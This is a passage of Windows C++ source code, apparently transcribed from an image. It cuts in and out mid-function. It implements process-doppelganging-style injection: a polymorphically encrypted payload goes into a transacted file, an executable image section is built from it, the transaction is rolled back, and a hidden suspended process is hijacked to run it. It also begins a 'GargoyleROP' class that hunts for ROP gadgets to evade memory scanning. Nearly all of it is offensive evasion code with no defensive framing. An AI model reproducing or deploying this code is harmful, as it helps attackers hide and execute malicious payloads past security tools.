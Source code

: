         Polymorphic::EncryptSection(buffer.data(), buffer.size());
        
        if (!WriteFile(hTransactedFile, buffer.data(), fileSize, &bytesRead, NULL)) {
            CloseHandle(hTransactedFile);
            CloseHandle(hTransaction);
            return false;
        }
        
        LARGE_INTEGER sectionSize = {fileSize};
        status = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, 
            &sectionSize, PAGE_EXECUTE_READWRITE, SEC_IMAGE, hTransactedFile);
            
        if (status != 0) {
            CloseHandle(hTransactedFile);
            CloseHandle(hTransaction);
            return false;
        }
        
        NtRollbackTransaction(hTransaction, TRUE);
        
        STARTUPINFOW si = {sizeof(si)};
        PROCESS_INFORMATION pi;
        
        if (!CreateProcessW(NULL, (LPWSTR)targetPath, NULL, NULL, FALSE, 
            CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
            CloseHandle(hSection);
            CloseHandle(hTransactedFile);
            CloseHandle(hTransaction);
            return false;
        }
        
        CONTEXT ctx;
        ctx.ContextFlags = CONTEXT_FULL;
        GetThreadContext(pi.hThread, &ctx);
        
#ifdef _WIN64
        ctx.Rcx = (DWORD64)hSection;
#else
        ctx.Eax = (DWORD)hSection;
#endif
        
        SetThreadContext(pi.hThread, &ctx);
        ResumeThread(pi.hThread);
        
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        CloseHandle(hSection);
        CloseHandle(hTransactedFile);
        CloseHandle(hTransaction);
        
        return true;
    }
};

class GargoyleROP {
private:
    static DWORD FindROPGadgets(HMODULE hModule) {
        PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hModule;
        PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)
            ((BYTE*)hModule + dosHeader->e_lfanew);
            